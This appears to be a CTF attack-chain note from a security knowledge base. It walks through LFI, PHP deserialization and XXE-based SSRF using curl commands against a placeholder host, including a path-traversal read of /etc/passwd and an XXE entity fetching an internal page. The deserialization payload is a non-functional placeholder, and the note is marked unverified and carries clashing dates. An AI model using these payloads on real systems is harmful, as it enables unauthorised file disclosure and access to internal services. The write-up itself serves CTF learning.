

---
tags:
  - lfi
  - deserialization
  - xxe
  - ssrf
  - web-exploitation
  - ctf
type: attack_chain
tools:
  - '[[tools/Curl]]'
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Discovery]]'
commands:
  - '[[commands/curl-lfi-payload]]'
  - '[[commands/php-deserialization-payload]]'
  - '[[commands/xxe-ssrf-payload]]'
platforms:
  - Web
  - PHP
complexity: medium
procedures:
  - '[[procedures/Exploit-Local-File-Inclusion-to-Read-PHP-Files]]'
  - '[[procedures/Exploit-PHP-Deserialization-Vulnerability]]'
  - '[[procedures/Exploit-XXE-for-SSRF-to-Access-Hidden-Pages]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
  - '[[Use Alternate Authentication Material]]'
description: >-
  Multi-stage web exploitation chain using LFI to reveal source code, PHP
  deserialization for further access, and XXE as SSRF to reach hidden
  maintenance pages
skill_level: intermediate
impact_level: high
id: 619f8c73-37f0-4a28-92ec-88791ec9e046
created_at: '2025-12-13T09:00:27.473Z'
updated_at: '2025-12-13T09:00:27.473Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
  - '[[Use Alternate Authentication Material]]'
---
# Chained LFI, PHP Deserialization, and XXE SSRF for Server Access

Multi-stage attack chain demonstrating a complete web exploitation workflow in a CTF scenario, starting with LFI to read server files, revealing deserialization and XXE bugs, and chaining them to access hidden pages and retrieve the flag.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Curl]]
- [[tools/Burp-Suite]]

### Target Environment

- Web platform running PHP
- Exposed web services on standard ports (e.g., 80/443)
- Network access to the target web application

### Initial Access Requirements

- Access to the vulnerable web endpoint
- No prior credentials needed
- Ability to send HTTP requests to the target

## Detailed Attack Procedures

### Step 1: Exploit Local File Inclusion to Read PHP Files
procedure: [[procedures/Exploit-Local-File-Inclusion-to-Read-PHP-Files]]

**Objective**: Use LFI to read arbitrary server files, including PHP source code, to discover additional vulnerabilities like deserialization and XXE.

**Instructions**: Identify the vulnerable parameter and craft a path traversal payload using [[commands/curl-lfi-payload]]:

```bash
curl "http://target.com/vulnerable.php?file=../../../../etc/passwd"
```

Escalate to reading PHP files, such as:

```bash
curl "http://target.com/vulnerable.php?file=../../../../var/www/index.php"
```

**Expected Output**: Contents of the targeted file, revealing PHP source code and potential bugs.

**Success Indicators**:
- Arbitrary file contents displayed
- PHP source code exposed, showing deserialization and XXE handling

### Step 2: Exploit PHP Deserialization Vulnerability
procedure: [[procedures/Exploit-PHP-Deserialization-Vulnerability]]

**Objective**: Leverage the discovered deserialization bug to execute code or gain further access based on the revealed source code.

**Instructions**: Craft a malicious serialized payload and send it via the vulnerable endpoint using [[commands/php-deserialization-payload]]:

```bash
curl -X POST "http://target.com/deserialize.php" -d 'payload=O:8:"Example":1:{s:3:"var";s:3:"foo";}' 
```

Monitor for execution or additional vulnerability exposure.

**Expected Output**: Successful deserialization leading to code execution or data leakage.

**Success Indicators**:
- Deserialization triggers expected behavior
- Further vulnerabilities or access points revealed

### Step 3: Exploit XXE for SSRF to Access Hidden Pages
procedure: [[procedures/Exploit-XXE-for-SSRF-to-Access-Hidden-Pages]]

**Objective**: Use XXE vulnerability as SSRF to request internal or hidden maintenance pages, ultimately retrieving the flag.

**Instructions**: Inject an XXE payload to perform SSRF using [[commands/xxe-ssrf-payload]]:

```bash
curl -X POST "http://target.com/xmlparse.php" -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://internal.hidden/page">]><foo>&xxe;</foo>' 
```

Access the hidden maintenance page and extract the flag.

**Expected Output**: Response from the internal resource, including the flag: flag{cha1n1ng_bugs_f0r_fun_4nd_pr0f1t?_or_rep0rt_an_LF1}.

**Success Indicators**:
- Internal resource accessed via SSRF
- Flag successfully retrieved

## Attack Chain Summary

### Key Achievements

1. Read arbitrary server files via LFI
2. Exploited deserialization for vulnerability chaining
3. Used XXE SSRF to access hidden content and obtain the flag

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Exploitation for Client Execution]]
- [[Use Alternate Authentication Material]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Discovery]]

*Last updated: 2023-10-01*
